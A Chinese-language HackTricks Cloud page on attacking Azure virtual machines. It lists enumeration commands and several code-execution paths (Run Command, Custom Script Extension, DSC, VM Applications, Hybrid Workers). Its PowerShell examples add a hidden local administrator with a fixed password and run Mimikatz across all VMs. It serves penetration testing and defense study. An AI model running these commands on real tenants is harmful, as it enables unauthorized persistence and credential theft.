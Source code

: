 # Az - 虚拟机 & 网络

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter**上**关注**我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Azure虚拟机是Azure提供的几种类型的[按需，可扩展计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)之一。通常，当您需要比其他选择提供的更多控制计算环境时，您会选择虚拟机。本文为您提供了在创建虚拟机之前应考虑的信息，如何创建它，以及如何管理它。

## Azure网络信息

Azure网络包含**不同的实体和配置方式。** 您可以在以下内容中找到不同Azure网络实体的**简要描述，** **示例** 和 **枚举**命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** 是一个完全托管的服务，它提供**安全且无缝的RDP**（远程桌面协议）和**SSH**（安全外壳）**访问**，直接在Azure门户中通过SSL访问您的**虚拟机**。这项服务是将您的虚拟机暴露给公共互联网连接的更安全、更便捷的**替代方案**。Azure Bastion在您的Azure虚拟网络内配置，为VNet中的所有VM提供RDP和SSH连接，使用私有IP地址，这意味着您不需要为Azure VM分配公共IP地址。

因此，如果您的公司在Azure VNet内托管了几个用于开发和测试的VM。**而不是设置公共IP地址和管理每个VM的NSG规则**以启用RDP或SSH访问，您**部署Azure Bastion**。有了Azure Bastion，您的开发人员和IT人员可以**安全地使用他们的网络浏览器从Azure门户访问这些VM**，无需公共IP地址。

要列出您订阅中的所有Azure Bastion主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## VM 枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **VM中的AAD登录**

可以允许通过AzureAD认证的用户访问。例如，尝试访问一个**linux VM**：`ssh username@azure-corp.com@1.1.1.1`（使用登录时用的azurecorp的**电子邮件**很重要），你可能会遇到如下错误：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照这些指示**访问 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭证，您将能够通过 SSH 连接（如果该用户有足够的权限：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure 虚拟机（VM）扩展是**小型应用程序**，它们在**Azure VMs**上提供部署后的配置和自动化**任务**。例如，如果虚拟机需要安装软件、防病毒保护，或者需要在其内部运行脚本，您可以使用 VM 扩展。

因此，如果您有写入权限，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)** 类似于 Ansible，但它是 PowerShell 内的一个工具，允许通过代码设置主机。DSC 在 Azure 中有自己的扩展，允许上传**配置文件**。DSC [配置文件](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) 在语法上非常挑剔，然而 DSC 扩展非常轻信，只要遵循一定的格式，它会**盲目执行任何命令**，如图 5 所示。

<figure><img src="../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

这可以通过 **Az PowerShell** 函数 [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 来完成。DSC 扩展需要一个带有**函数**的 **.PS1** 文件，并打包在 **.zip** 文件中。由于这实际上不是正确的 DSC 语法，扩展状态将显示为“失败”，但代码将被执行。这样做的问题是没有命令的输出，因为状态被失败消息覆盖了。

### VM Application Definitions

[VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) 资源是一种向 Azure VM **重复部署版本化应用程序**的方式。例如，如果您创建一个**程序**并将其作为版本 1.0 **部署**到所有 Azure VM，一旦将程序**更新到 1.1**，您可以使用相同的 VM Application **创建另一个定义**并将更新推送到任何 VM。\
能够**推送应用程序**到 VM 意味着它是另一种**代码执行**的途径。这种方法的缺点是设置应用程序定义[**需要一些步骤**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal)，但可以使用 Az PowerShell 中的 **`New-AzGalleryApplication`** 和 **`New-AzGalleryApplicationVersion`** cmdlets 来完成。

这项技术通过使用一个**扩展“VMAppExtension”**工作，当将应用程序应用到 VM 时，该扩展会自动安装。扩展将文件从 URI 下载到磁盘上，名称与应用程序名称_完全相同_，这意味着如果应用程序名称是‘AzApplication’，磁盘上的文件也叫做‘AzApplication’，没有扩展名。这要求在 [REST API 调用](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) 中配置“ManageActions”字段，以便用适当的扩展名重命名应用程序。如果您不想运行整个应用程序，可以通过滥用同一 REST API 方法中的 ManageActions 字段或通过 Azure Portal 来运行任意 PowerShell 命令。一旦设置好，定义将类似于图 8。

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

不幸的是，这种执行技术速度较慢（执行应用程序或命令大约需要 3-4 分钟），但由于它相对较新，我会感到惊讶如果有任何特定的检测被编写。

由于最终是扩展执行了操作，应用程序的副本位于 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`，执行的状态保留在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`。

### Hybrid Worker Groups

[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) 允许在自动化帐户中配置的**Runbook**在作为**配置 HWG**的一部分的**Azure 虚拟机**上**运行**。同样，**扩展被用于**在 VM 上部署 Runbook 代码。由于使用了扩展，凭据无关紧要，代码作为**SYSTEM**或 root 执行。

<figure><img src="../../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

如果使用 Windows 10 VM，重要的是让 Runbook 作为 PowerShell 版本 5.1 而不是 7.1 运行，因为 7.1 默认不安装在 VM 上，脚本将无法运行。

## 参考资料

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>从零开始学习 AWS 黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF** 版本，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
